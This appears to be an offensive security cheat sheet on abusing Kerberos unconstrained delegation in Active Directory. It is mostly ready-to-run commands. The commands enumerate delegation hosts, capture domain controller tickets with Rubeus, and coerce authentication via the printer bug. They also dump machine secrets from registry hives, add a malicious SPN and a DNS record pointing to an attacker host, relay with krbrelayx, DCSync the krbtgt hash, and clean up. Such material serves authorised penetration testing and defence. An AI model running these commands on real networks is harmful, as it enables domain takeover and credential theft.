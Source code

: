 # Kerberos Unconstrained Delegation

* [https://adsecurity.org/?p=1667](https://adsecurity.org/?p=1667)
* [https://ardent101.github.io/posts/kerberos_delegation/](https://ardent101.github.io/posts/kerberos_delegation/)

Enumerate:

```
PowerView3 > Get-DomainComputer -Unconstrained | select dnshostname,samaccountname,useraccountcontrol
```




## Monitor for TGTs

Coerce authentication from a DC while monitoring for TGTs in the background on the owned unconstrained delegation system:

```
Cmd > .\Rubeus.exe monitor /targetuser:DC01$ /interval:5 /nowrap /runfor:60 [/registry:SOFTWARE\MONITOR] [/consoleoutfile:C:\Windows\Temp\monitor.txt]
Cmd > .\SpoolSample.exe dc01.megacorp.local srv01.megacorp.local
```

Use [ticket_converter](https://github.com/eloypgz/ticket_converter) or [ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py) to convert the TGT from `.kirbi` to `.ccache` (usable with impacket):

```
$ python ticket_converter.py dc01.kirbi dc01.ccache
$ KRB5CCNAME=`pwd`/dc01.ccache ...
```

If output goes to the `/registry`:

```
PS > Get-ChildItem HKLM:\SOFTWARE\MONITOR\
PS > Get-ItemProperty HKLM:\SOFTWARE\MONITOR\DC01$@MEGACORP.LOCAL
PS > Get-Item HKLM:\SOFTWARE\MONITOR\ | Remove-Item -Recurse -Force
```




## "Relaying" Kerberos

* [https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)

{% embed url="https://snovvcrash.github.io/2021/05/21/calculating-kerberos-keys.html" caption="A Note on Calculating Kerberos Keys for AD Accounts" %}

{% file src="/.gitbook/assets/From Zero Credential to Full Domain Compromise (Haboob Team).pdf" %}



### Printer Bug + DCSync

Requirements:

* Owned computer account with unconstrained delegation enabled (SRV01).
* Printer bug on a domain controller (DC01).
* Permissions to add an SPN for the owned computer account and a new DNS record in AD.

1\. Grab owned computer account password to calculate its Kerberos AES key. This is done automatically when extracting the password remotely with `secretsdump.py`, or it will be done later by `krbrelayx.py` when providing it the password in hex from local `secretsdump.py` output:

```
# Remotely
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@SRV01.megacorp.local -ts
...
MEGACORP\SRV01$:aes256-cts-hmac-sha1-96:00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff

# Locally
Cmd > reg.exe save hklm\system system.hive
Cmd > reg.exe save hklm\security security.hive
$ secretsdump.py -system system.hive -security security.hive LOCAL
...
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:<PLAIN_PASSWORD_HEX>
```

2\. Add a malicious SPN for the owned computer account with unconstrained delegation:

```
# Check (no modifications)
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local -q DC01.megacorp.local

# Adding servicePrincipalName that doesn't match full hostname or samAccountName will fail
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local DC01.megacorp.local

# But modifying msDS-AdditionalDnsHostName will succeed
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local DC01.megacorp.local --additional
```

3\. Add a DNS record pointing to the attacker's host:

```
$ python dnstool.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -r evil.megacorp.local -d <ATTACKER_IP> --action add DC01.megacorp.local
```

4\. Check that the record was added successfully (\~ 3 minutes):

```
$ nslookup evil.megacorp.local <DC01_IP>
Server:		192.168.1.11
Address:	192.168.1.11#53

Name:	evil.megacorp.local
Address: 10.10.13.37
```

5\. Start `krbrelayx.py` providing AES key of the owned computer account or its plain password in hex with salt:

```
# In case secretsdump.py was used remotely
$ sudo python krbrelayx.py -aesKey 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff

# In case secretsdump.py was used locally
$ sudo python krbrelayx.py --krbhexpass <PLAIN_PASSWORD_HEX> --krbsalt MEGACORP.LOCALhostsrv01.megacorp.local
```

6\. Coerce the authentication to attacker's host from DC01 by triggering printer bug:

```
$ python printerbug.py megacorp.local/'SRV01$'@DC01.megacorp.local -hashes aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 evil.megacorp.local
```

7\. Export extracted TGT and perform DCSync to get krbtgt hash (or any other privileged account hash):

```
$ export KRB5CCNAME=`pwd`/'DC01$@MEGACORP.LOCAL_krbtgt@MEGACORP.LOCAL.ccache'
$ secretsdump.py DC01.megacorp.local -dc-ip <DC01_IP> -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```

8\. Cleanup. Delete SPN and DNS record:

```
$ python addspn.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local -r DC01.megacorp.local --additional
$ python dnstool.py -u 'megacorp.local\SRV01$' -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -r evil.megacorp.local -d <ATTACKER_IP> --action remove DC01.megacorp.local

# Check if the SPN was deleted successfully
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u 'SRV01$' --hash fc525c9683e8fe067095ba2ddc971889 -m computers --attrs servicePrincipalName | grep SRV01
```

Other scenarios:

* In [this](https://exploit.ph/user-constrained-delegation.html) blogpost it is described how to perform the attack by abusing a **service** (user) account with unconstrained delegation enabled.
* In [this](https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/) blogpost it is described how to perform the attack from Windows by extracting TGT with Inveigh.
* In [this](https://nothingspecialforu.github.io/UCgMSAExploitation/) blogpost it is described how to perform the attack by abusing a **gMSA** (user) account with unconstrained delegation enabled.
